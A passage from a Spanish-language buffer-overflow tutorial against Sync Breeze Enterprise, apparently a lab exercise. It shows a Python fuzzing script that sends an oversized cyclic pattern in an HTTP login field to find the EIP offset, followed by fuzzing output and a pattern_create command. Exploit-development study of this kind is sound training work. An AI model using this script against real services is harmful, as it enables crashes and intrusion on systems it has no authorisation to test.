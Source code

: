 > Para resetear el programa presiono `ctrl+d` y escribo `services.msc`, busco el servicio `Sync Breeze Enterprice` y elijo la opción `start` para inciar.

----

## Encontrar EIP

```
#!/usr/bin/python

import socket, time, sys

try:
	print "[+] Sending buffer"
	size = "Aa0Bd6Bd7Bd8Bd9[...]" # length 9000 bytes
	fuzz = "username=" + size + "&password=A"

	buff = "POST /login HTTP/1.1\r\n"
	buff += "Host: 192.168.0.105\r\n"
	buff += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
	buff += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
	buff += "Accept-Language: en-US,en;q=0.5\r\n"
	buff += "Accept-Encoding: gzip, deflate\r\n"
	buff += "Referer: http://192.168.0.105/login\r\n"
	buff += "Content-Type: application/x-www-form-urlencoded\r\n"
	buff += "Content-Length: " + str(len(fuzz)) + "\r\n"
	buff += "\r\n"

	buff += fuzz

	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.105", 80))
	s.send(buff)
	s.close()

except Exception as e:
	print str(e)
	sys.exit(1)
```

```
❯ python fuzzing.py
[+] Sending buffer 100 bytes
[+] Sending buffer 200 bytes
[+] Sending buffer 300 bytes
[+] Sending buffer 400 bytes
[+] Sending buffer 500 bytes
[+] Sending buffer 600 bytes
[+] Sending buffer 700 bytes
[+] Sending buffer 800 bytes
```

```
❯ sudo /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 900
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6[...]Ac7Ac8Ac9Ad0A
```
